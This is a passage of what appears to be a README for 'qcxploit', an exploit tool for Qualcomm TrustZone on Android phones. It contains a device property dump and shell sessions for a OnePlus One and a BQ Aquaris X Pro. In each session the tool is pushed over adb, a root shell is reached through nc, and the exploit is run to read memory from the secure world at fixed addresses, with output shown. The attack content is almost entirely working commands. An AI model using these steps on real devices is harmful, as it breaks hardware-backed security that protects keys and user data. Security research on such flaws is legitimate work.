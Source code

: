   ``` 
        [ro.boottime.mediadrm]: [6872873851]
        [ro.boottime.nfc_hal_service]: [4955175831]
        [ro.boottime.nvtool]: [6861805830]
        [ro.boottime.nxpnfc_hal_svc]: [4962930831]
        [ro.boottime.ril-daemon]: [6887123642]
        [ro.boottime.storaged]: [6882149788]
        [ro.boottime.time_daemon]: [6853684111]
        [ro.boottime.tombstoned]: [6930821819]
        [ro.boottime.vndservicemanager]: [4090654841]
        [ro.build.description]: [bardockpro_bq-user 8.1.0 OPM1.171019.026 1492 release-keys]
        [ro.build.fingerprint]: [bq/bardock-pro/bardock-pro:8.1.0/OPM1.171019.026/1492:user/release-keys]
        [ro.build.version.base_os]: [bq/bardock-pro/bardock-pro:8.1.0/OPM1.171019.026/1422:user/release-keys]
        [ro.build.version.release]: [8.1.0]
        [ro.com.google.gmsversion]: [8.1_201810]
  ```

<br/>
<br/>

#### 11. Talk to the tz (reading tz memory)

<br/>  

##### 32 Bit Oneplus One MSM8974
  Read memory dword from within the tz (Address: 0xFE82CDA0)
  
  ```
  $ adb forward tcp:1231 tcp:1231
  $ adb push qcxploit /data/local/tmp
  $ nc localhost 1231
  root@bacon:/ # cd /data/local/tmp
  root@bacon:/data/local/tmp # ./qcxploit exploit8974
  root@bacon:/data/local/tmp # ./qcxploit readmem 0xFE82CDA0 4
  0xFE805738
  385780FE
  ```
 
 <br/>
 
##### 64 Bit BQ Aquaris X Pro MSM8953
  Read memory dword from within the tz (Address: 0x8657871c)
  
  ```
  $ adb forward tcp:1231 tcp:1231
  $ adb push qcxploit /data/local/tmp
  $ nc localhost 1231
  root@bardock:/ # cd /data/local/tmp
  root@bardock:/data/local/tmp # ./qcxploit readmem 8657871c 4
  Sending SVC: 0x200020d
  Data:
  0xA9BA6FFC
  FC6FBAA9
  ```
